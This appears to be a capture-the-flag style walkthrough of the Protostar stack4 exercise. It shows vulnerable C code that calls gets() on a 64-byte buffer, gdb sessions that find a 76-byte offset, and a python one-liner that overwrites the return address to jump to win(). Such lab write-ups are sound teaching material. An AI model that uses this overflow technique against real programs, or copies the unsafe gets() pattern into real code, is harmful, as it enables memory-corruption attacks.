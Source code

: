 source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This one is **ret2win**,

```
user@protostar:~$ objdump -d stack4 | grep win
080483f4 <win>:
```

Set a break point before `ret` of function `main`, (`ret` is equal to `pop eip`, means pop stack top into `eip`)

```
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   %ebp
0x08048409 <main+1>:	mov    %esp,%ebp
0x0804840b <main+3>:	and    $0xfffffff0,%esp
0x0804840e <main+6>:	sub    $0x50,%esp
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) b *main+22
```

Now the stack frame layout is

```
+----------+
|          | <- ebp (restored already)
+----------+
|   ...    | 
| ret addr | <- esp
+----------+
|  ...     |
|          | <- buffer
+----------+
```

The offset between `buffer` and `esp` can be calculated using pattern generator and calculator, and is 76.

```
(gdb) r
Starting program: /home/user/stack4 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x41346349
) at stack4/stack4.c:16

(gdb) x $esp
0xbffff67c:	0x63413563
```

```
user@protostar:~$ python -c "print b'a'*76 + b'\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
```
